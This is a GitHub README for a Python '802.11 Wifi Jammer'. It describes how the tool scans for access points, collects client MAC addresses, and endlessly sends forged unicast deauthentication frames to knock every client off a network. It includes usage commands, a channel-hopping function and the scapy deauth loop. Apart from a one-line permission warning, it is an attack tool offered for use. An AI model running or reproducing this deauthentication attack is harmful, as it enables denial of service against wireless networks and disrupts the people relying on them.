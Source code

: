 # 802.11 Wifi Jammer
**Infinitely disconnects clients one by one from a 802.11 network**

**This program does send a broadcast de-auth packet using the networks bssid as it is REALLY INEFFECTIVE and rarely works. INSTEAD this program scans the selected network for clients and adds those clients into a list, then infinitely loops through the clients list to send UNICAST DE-AUTH packets to specified clients which in turn in very effective**


**! <ins>DO NOT USE ON A NETWORK WITHOUT PRIOR PERMISSION</ins> !**

Prerequisites
-------------

* Wireless adapter supporting monitor mode and packet injection
* Python with ***scapy*** and ***colorama*** installed

Usage 
------
``` shell
python jammer.py <interface> <noise_filter_flag>
```
* The interface mentioned should have monitor mode already ON.
* The noise_filter_flag could be either 1 (True : noise filter is on) or 0 (False: noise filter is off)
  
Example:
``` shell
python jammer.py wlan0mon 1
```
How To Use
-----------

**The programs works in a three step process:**

### 1) Scanning APs:

* sniffs beacons frames using scapy on the specified interface
* channel hopping is done through a hopper thread which terminates through a daemon boolean flag
``` shell
def channelHopper():	
    while True: 
        channel = random.choice(channels)
        os.system("iw dev wlan0 set channel {}".format(channel))
        with lock:	
            global CURRENT_CHANNEL
            CURRENT_CHANNEL = channel
        if not(daemonFlag):
        	break 
        time.sleep(0.2)
```
### 2) Scanning Selected Network For Clients:
**This involves switching over to the channel of the selected network and extracting for clients bssid using these radio packets:** 
* Qos Frame
* Qos with CCMP Frame
* Control Block Frame
* Null Frame

This is achieved using the **clientFilter** function:

https://github.com/ary27x/WIFI_JAMMER/blob/3aaf282f24d69eee91449ad566a4b627701ea4e0/jammer.py#L130

(Let this run for a couple of minutes)

### 3) Sending De-Authentication Packets:

**Finally the program infinitely loops through the clients list and sends forged de-authentication packet to each through layer 2**

``` shell
while True:
    for client in clients:
        packet = RadioTap()/Dot11(addr1 = client, addr2 = MAC , addr3 = MAC)/Dot11Deauth()
        sendp(packet , iface = IFACE)
```





  




